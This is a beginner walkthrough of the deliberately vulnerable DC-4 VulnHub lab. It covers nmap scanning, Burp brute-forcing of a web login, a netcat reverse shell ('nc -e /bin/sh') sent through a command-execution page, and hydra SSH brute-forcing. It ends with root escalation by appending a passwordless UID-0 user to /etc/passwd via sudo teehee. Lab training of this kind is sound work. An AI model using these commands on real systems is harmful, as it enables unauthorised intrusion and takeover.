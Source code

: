 # DC4 Vulnhub Walkthrough

#### Description

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
 
 
  # Scaning
  
  ### Reconnaissance 
  
  Firstly we have to identify the machine IP address using tool like NetDiscover 
  
  Sudo netdiscover

![Screenshot from 2023-01-25 23-54-43](https://user-images.githubusercontent.com/108471951/214925957-99613a2f-7ac0-43e8-bb30-ade55493badd.png)

Found the IP 192.168.0.158


### Nmap

nmap -sV -sC -p- 192.168.0.158

![Screenshot from 2023-01-26 20-45-39](https://user-images.githubusercontent.com/108471951/214926265-f258b161-2f38-4040-b884-c5e8f71d6ea2.png)

By seeing the result I am not getting where to start, but i seen something new which i never seen before in the result nginx 1.15.10 



searchsploit nginx 1.15.10

![Screenshot from 2023-01-26 20-58-00](https://user-images.githubusercontent.com/108471951/214927477-32801d47-1f7c-4633-88e1-a940675af28c.png)

I tried to find a exploit for nginx 1.15.10 but i didt get

### Http


i visited website 

![Screenshot from 2023-01-26 20-58-15](https://user-images.githubusercontent.com/108471951/214926942-4a251766-d06f-45e7-8481-0cd03c9f3368.png)

Visiting website given a simple form





I decided to use burp suite intruder to crack the user credtials 

![Screenshot from 2023-01-26 23-25-05](https://user-images.githubusercontent.com/108471951/214928193-fa644c0e-9bfd-461f-886c-8ffbe7535f89.png)

I got a user name and passwd [ user = admin - passwd = happy ]


After login with the credentails we got I got a page that had the URL to /command.php

![Screenshot from 2023-01-26 23-26-27](https://user-images.githubusercontent.com/108471951/214928759-7fc341f0-88e0-4613-abb0-608a556fc8f2.png)




I tried running the commands that where present there

![Screenshot from 2023-01-26 23-26-49](https://user-images.githubusercontent.com/108471951/214928807-25f51207-269d-4574-a5de-1674025463c0.png)

Since we can run commands that means we can have reverse shell easily

I intercepted the command request in burp and then sent the netcat command for reverse shell nc+-e/bin/sh IP+PORT

![Screenshot from 2023-01-26 23-36-05](https://user-images.githubusercontent.com/108471951/214929191-e65549c2-9baa-4a79-ba12-87c2409ba32a.png)


Started listening in the given port 1234

![Screenshot from 2023-01-26 23-37-48](https://user-images.githubusercontent.com/108471951/214929563-4bc4be7f-03c9-4553-80cc-7e86eb9bc607.png)


and forweded the request in burp the i got the shell 

![Screenshot from 2023-01-26 23-38-53](https://user-images.githubusercontent.com/108471951/214929712-6b83e4ef-625d-4df6-8772-2767fd0de31e.png)



For TTY shell

Python Script from gtfobins  https://gtfobins.github.io/gtfobins/python/

![Screenshot from 2023-01-26 23-40-06](https://user-images.githubusercontent.com/108471951/214930021-66836e7a-4b5a-4a57-a5b4-c02643fe474d.png)

## Enumeration

python -c 'import os; os.system("/bin/sh")'

cd /home

![Screenshot from 2023-01-26 23-42-19](https://user-images.githubusercontent.com/108471951/214930323-68cf0310-57d9-4563-b320-3cffe87523b3.png)

I found some users 

I made them as a users.txt file

![Screenshot from 2023-01-26 23-48-21](https://user-images.githubusercontent.com/108471951/214930477-d5dba641-b790-4af2-8986-5ebe5a79b564.png)


![Screenshot from 2023-01-26 23-49-00](https://user-images.githubusercontent.com/108471951/214930504-9fab69e8-34c6-4dde-a8aa-b7a059b63f27.png)


cd jim

ls

cd backups


![Screenshot from 2023-01-26 23-55-16](https://user-images.githubusercontent.com/108471951/214930737-1782edfe-2a90-4efd-b42e-000427d94cc8.png)

I found some old passwords 


![Screenshot from 2023-01-27 00-57-35](https://user-images.githubusercontent.com/108471951/214931309-7e67a38d-68a2-487e-a62c-3bc8f461243a.png)


I made a pass.txt file

![Screenshot from 2023-01-27 00-57-04](https://user-images.githubusercontent.com/108471951/214931483-09ce31e8-0b43-4b54-8cb1-c141de2b02be.png)


### Bruteforce

##### hydra

now i bruteforceing the user id and passwords on ssh port which is open

hydra -L users.txt -P pass.txt ssh://192.168.0.158


![Screenshot from 2023-01-27 00-06-14](https://user-images.githubusercontent.com/108471951/214932104-08b8a0d4-33f0-455d-93f6-aca4bc50f046.png)


I got the user jim password = jibril04



ssh jim@192.168.0.158


![Screenshot from 2023-01-27 00-09-42](https://user-images.githubusercontent.com/108471951/214932330-1c062baa-ae2e-4989-a87e-8dacfde00450.png)




ls

cd mbox


![Screenshot from 2023-01-27 00-12-05](https://user-images.githubusercontent.com/108471951/214932504-2197ac6d-bd29-40f8-ae06-2b22542be8e0.png)


This looks like an email. So let’s check out the /var/mail folder to see if we find anything



cd /vra/mail

![Screenshot from 2023-01-27 00-15-25](https://user-images.githubusercontent.com/108471951/214932779-5e45f284-a4a2-4a93-a60c-e5f5e16b23c1.png)

HereI found a mail to charles in this there’s a password for user charles


user/passwd                charles                     ^xHhA&hvim0y 


su charles

![Screenshot from 2023-01-27 00-16-19](https://user-images.githubusercontent.com/108471951/214933644-49a9f588-1915-43a3-b27a-8b955bd4ad4b.png)





sudo -l 


![Screenshot from 2023-01-27 00-17-53](https://user-images.githubusercontent.com/108471951/214933809-63228a5f-c8b0-49c6-aaec-63d1b9001bc1.png)


Charles can run teehee with sudo rights

We can add a user in /etc/passwd without any password and have that user power of root 



![Screenshot from 2023-01-27 00-18-44](https://user-images.githubusercontent.com/108471951/214934790-6517bdca-061d-4bfb-9764-e34ad7012d0d.png)



echo "Robin::0:0:::/bin/sh" | sudo teehee -a /etc/passwd


![Screenshot from 2023-01-27 00-25-37](https://user-images.githubusercontent.com/108471951/214934692-60d70cdd-eb51-45f4-af52-07687c0107db.png)


we cretaed the user Robin 




su Robin

whoami


![Screenshot from 2023-01-27 00-26-17](https://user-images.githubusercontent.com/108471951/214935010-fba6abf7-3f0a-416d-aad1-45b2232337db.png)
 
 
 
 cd /
 
 ls
 
 cd root
 
 ls
 
 cat flag.txt
 
 ![Screenshot from 2023-01-27 00-27-08](https://user-images.githubusercontent.com/108471951/214935210-2c196d3e-d008-48e8-872b-3678498e1383.png)

 

Sccesfully I have found the flag.


